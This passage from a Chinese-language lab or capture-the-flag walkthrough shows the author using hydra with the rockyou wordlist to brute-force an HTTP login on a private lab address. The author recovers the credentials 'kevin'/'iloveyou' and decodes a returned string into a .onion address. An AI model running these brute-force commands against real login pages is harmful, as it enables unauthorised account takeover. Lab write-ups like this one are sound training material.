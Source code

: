 尝试构造进行爆破：

```bash
hydra -l kevin -P /usr/share/wordlists/rockyou.txt -f -vV -s 80 172.20.10.3 http-post-form "/:user=^USER^&password=^PASS^:Username or password invalid"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421490.png" alt="image-20240406134149178" style="zoom:33%;" />

得到密码，尝试登录：

```apl
kevin
12345
```

但是发生了错误。。抓包看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421491.png" alt="image-20240406134403887" style="zoom: 33%;" />

发现了吗，它写的是`Username or password invalid`。。。。改一下，重新爆破，突然发现上面写错了，纠正一下，我是憨批。。。：

```bash
hydra -l kevin -P /usr/share/wordlists/rockyou.txt -f -vV -s 80 172.20.10.3 http-post-form "/:user=kevin&pass=^PASS^:invalid"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421492.png" alt="image-20240406134823335" style="zoom:50%;" />

```apl
kevin
iloveyou
```

再次登录一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421493.png" alt="image-20240406134929451" style="zoom:50%;" />

```apl
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

### decrypto

尝试解密一下：

- 字母超过了f说明不是md5加密。
- 没有等号，可以尝试一下`base58`。
- 尝试`base64`

然后我添加`base64`的时候忘关`base58`了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404061421494.png" alt="image-20240406140053332" style="zoom:50%;" />

好家伙。。。。运气真好！

```apl
sfqekmgncutjhbypvxda.onion
```
